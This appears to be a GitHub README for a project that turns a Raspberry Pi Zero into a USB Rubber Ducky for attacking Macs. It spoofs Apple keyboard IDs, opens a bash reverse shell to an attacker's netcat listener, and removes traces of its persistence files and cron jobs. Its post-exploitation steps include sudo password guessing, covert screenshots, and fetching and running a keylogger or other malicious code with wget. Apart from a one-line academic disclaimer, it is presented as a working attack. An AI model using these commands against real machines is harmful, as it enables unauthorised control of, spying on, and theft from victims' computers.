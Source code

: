 # Ducky Raspberry Pi Zero for Mac

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://github.com/ohbriansung/usb_rubber_ducky/blob/master/LICENSE)

This is a project to convert a normal Raspberry Pi Zero into a USB Rubber Ducky using P4wnP1. There are some threads online about P4wnP1 not running on Mac but here is an introduction about how to setup so your Pi would be able to attack a Mac. Only using pure bash on victim's machine, not third party library or package installation needed. In just 30 seconds, you'd gain control to victim's machine.

![Ducky Raspberry Pi Zero](https://github.com/ohbriansung/usb_rubber_ducky/blob/master/pi_zero_ducky/img/concept.jpg)

## Demo Video

[![Brian Ducky Raspberry Pi Zero demo](https://img.youtube.com/vi/IrasdisNsJk/0.jpg)](https://www.youtube.com/watch?v=IrasdisNsJk)

## Requirements

1. Raspberry Pi Zero
2. 8G+ Micro SD card
3. USB Cable \(A-Male to Micro B\)

## Setup

1. Download Raspbian Stretch Lite [image](https://www.raspberrypi.org/downloads/raspbian/).
2. Install image on micro SD card with [Etcher](https://www.balena.io/etcher/).
3. Boot your pi and login with default username and password.

```
username: pi
password: raspberry
```

4. (Optional) Change default password for a better security.
5. Connect to network using Wi-Fi or ethernet (Adapter needed).

```shell
sudo raspi-config
```

6. Download P4wnP1 package and install it. \(If newer version is not working, I have an archived version in this repository that worked when I wrote this documentation.\)

```shell
git clone --recursive https://github.com/mame82/P4wnP1
cd P4wnP1/
./install.sh
```

7. (Important) Change scripts so it will run on Mac. This is a temporarily (03/25/19) workaround solution. "open('/dev/hidg0','rb')" is not working on Mac currently so add a timeout to line 200 in P4wnP1/boot/boot_P4wnP1.

```shell
timeout 1 python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```

8. (Important) Use Vendor ID and Product ID from a real Apple keyboard in your payload so Mac won't be asking you to setup an unknown keyboard. See example [here](https://github.com/ohbriansung/usb_rubber_ducky/blob/master/pi_zero_ducky/payloads/hid_keyboard_hello_world.txt).

```
USB_VID="0x05ac"  # Vendor ID
USB_PID="0x027b"  # Product ID
```

9. Put your payload into P4wnP1/payloads/ on your pi zero. Load the payload in "P4wnP1/setup.cfg".

```
PAYLOAD=hid_keyboard_hello_world.txt  # Add to the end of the file
```

10. Shutdown the pi zero and plug it into a Mac with USB cable mentioned [above](#requirements). Use peripheral micro USB port, not the power port. No power needed here, pi zero takes power from target machine.

```shell
sudo shutdown -h now
```

11. If you want to edit the payload later, plug the pi zero into your machine, connect to Wi-Fi "P4wnP1" with password "MaMe82-P4wnP1", and ssh to it.

```shell
ssh pi@172.16.0.1
```

## Create a Reverse Shell Backdoor

1. Host Netcat server on your machine.

```shell
nc -l -p 8080 -vvv
```

2. Create a descriptor on target machine. Make sure to change the IP address and port to your server. Your server must be in the same network as target unless you have a public IP that can be accessed by target machine everywhere. \(Run the descriptor in background is recommended.\)

```shell
bash -i >& /dev/tcp/YOUR_SERVER_IP/8080 0>&1
```

3. On your server, when you see a connection being created, you then have bash access to the target machine. You would be able to see the output of bash directly on your machine with the setup above.
4. In [payloads](https://github.com/ohbriansung/usb_rubber_ducky/tree/master/pi_zero_ducky/payloads) folder there is a reverse shell ducky script example. Here is the clean up script if you use my example.

```shell
rm ~/app_support.sh; rm /tmp/app_support.sh; rm ~/.ssh/rsa_pub_; rm ~/Library/.hidden/app_support.sh; rm ~/Library/Python3.65; rm /usr/local/bin/Python3.65;
echo "" | crontab - && crontab -r
```

*For a newer version of OSX, you would find out that you Mac pops out a window and you need to select OK manually. This is an improvement made by Apple for cron job. If you use the payload without cron job, you will be just fine.*

## What Now

- Rick roll prank

```shell
# One privilege of hacking Mac is we have access to AppleScript.
osascript -e 'set volume 7'
open https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

- Accessing sudo privilege

```shell
echo "password" | sudo -S ls
```

*You would be able to run a background program to brute-force victim's password.*

- Take a screenshot

```shell
osascript -e 'set volume 0'
screencapture ~/a.jpg
```

- Download and run a malicious code or KeyLogger to gain further control.

```shell
wget -O /tmp/x -q -o /dev/null http://link_to_malicious_code/
chmod a+x /tmp/x
/tmp/x
```

- ~~Take a photo with Mac's webcam~~

*Apparently, Apple has a very strong security and privacy. It's nearly impossible to control hardware like webcam or mic without really operating on the machine.*

## Author and Contributors

- Chien-Yu \(Brian\) Sung
- Jordan Aldujaili
- Omar Sharif

## Disclaimer

This repository is for academic purposes, the use of this software is your responsibility.

## References

0. [Raspbian](https://www.raspberrypi.org/downloads/raspbian/)
1. [Ducky Script](https://github.com/hak5darren/USB-Rubber-…)
1. [P4wnP1](https://github.com/mame82/P4wnP1/)
1. [Reverse Shell with Bash](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)
